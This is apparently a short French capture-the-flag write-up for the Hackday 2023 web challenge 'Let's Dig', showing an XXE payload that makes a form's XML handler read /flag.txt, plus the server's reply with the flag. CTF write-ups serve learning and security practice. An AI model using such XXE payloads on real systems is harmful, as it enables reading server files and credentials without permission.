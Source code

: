 ```yaml
---
layout: post
title: Hackday_2023 - Let's Dig
date: 2023-03-21 21:51 +0100
categories: web
difficulty: easy
---
```


## Let's dig

https://7fcf29753d2.hackday.fr <br>
https://7fcf29753d2.hackday.fr/process.php


Le flag se trouve à la racine dans un fichier flag.txt. on remarque vite un questionnaire et un fichier js qui envoie un xml des réponses au serveur.
Pour récupérer le flag il faut faire une injection xxe en modifiant l'envoie du formulaire.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<root><name>
&xxe;</name><tel>fds</tel><email>eee
</email></root>
```

flag : 

```bash
Thank you 
HACKDAY{62e2eeae3d450e008bd353f57f4be401}
, you're successfully registered
```
